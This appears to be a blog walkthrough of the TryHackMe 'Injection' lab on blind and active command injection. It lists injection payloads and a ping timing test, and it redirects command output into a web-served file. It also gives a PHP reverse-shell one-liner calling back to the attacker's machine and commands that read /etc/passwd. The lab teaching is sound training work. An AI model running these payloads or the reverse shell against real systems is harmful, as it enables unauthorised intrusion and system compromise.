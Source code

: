 ```yaml
---
layout: post
title: Injection – Try Hack Me
subtitle: Walkthrough
tags: [LFI,Webapp]
---
```


In this box you will learn about command injection from a blind and active perspective.

[Challenge](https://tryhackme.com/room/injection)

## Task 1

Initiate the VPN connection and deploy the machine


Add the IP address of our machine to the /etc/hosts

~~~
echo 10.10.45.107 injection >> /etc/hosts
~~~

## Task 2 → An Introduction To Command Injection

Head over to http://injection/ and mess around with the web application.
Here are some common command injection payloads try them out.

~~~
; ls
&& ls
| ls
|| ls 
~~~

## Task 3 → Blind Command Injection

From the previous task you might have noticed that when you supply an existing user concatenated with a command injection payload we get a successful response. 
Such as:
~~~
root; ls
~~~

![root;ls](/img/2020-07-24-Injection/root-ls.png)

Since we don't see any output, we might think that there is a blind command injection. To check this, let's ping the machine and see if the responses is delayed.

~~~
root & ping -c 10 <Machine-IP>
~~~

Since the response takes a while, it's a good indication that our assumption was correct.
Let's try to view the response. We can try to redirect the output of a command to a file. Let's try 'index.php'.

~~~
root;uname -r > tmp.php
~~~
Heading over to 'http://injection/tmp.php' we can see the output of our payload.

![uname](/img/2020-07-24-Injection/uname.png)

Next, enter the username asked in the web application and check the message displayed. 
By now you probably noticed that an existing username will display 'Success' on the other hand a user that does not exits will display 'Error'.

## Task 4 → Active Command Injection

In this task we are given an interactive shell. Head over to 'http://injection/evilshell.php'.
Run the 'ls' command to see the content of the current directory.

![ls](/img/2020-07-24-Injection/ls.png)

For the rest of this box, let's get a reverse shell, in order to easily interpret the output.
On your machine run:

~~~
ncat -l -p 1337
~~~

On our interactive shell execute: 10.9.2.107
~~~
php -r '$sock=fsockopen("<Your_IP>",1337);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~
You can find your IP on this link https://tryhackme.com/access or run 'ifconfig' and check the IP on the tun0 interface.

The answer to the next questions can be found be running the following commands.

~~~
#2 cat /etc/passwd
#3 whoami
#4 cat /etc/passwd | grep www-data
#5 lsb_release -a
#6 cat /etc/update-motd.d/00-header
~~~

## Task 5 → Get The Flag!

Usually the name of the flag file is 'flag.txt', so let's search for it.

~~~
find / -name flag.txt 2>/dev/null 
~~~
Simply use cat and you are done.
Hope you enjoyed this guide.

